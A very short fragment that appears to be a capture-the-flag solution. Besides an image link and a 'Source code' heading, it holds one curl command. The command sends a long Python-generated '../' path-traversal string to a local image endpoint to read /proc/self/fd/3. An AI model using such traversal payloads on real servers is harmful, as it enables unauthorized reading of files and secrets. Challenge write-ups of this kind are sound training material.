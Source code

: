 ## Solution

`curl http://localhost:3003/?image=$(python3 -c 'print(982*".."+982*"/"+982*".."+982*"/")')proc/self/fd/3`

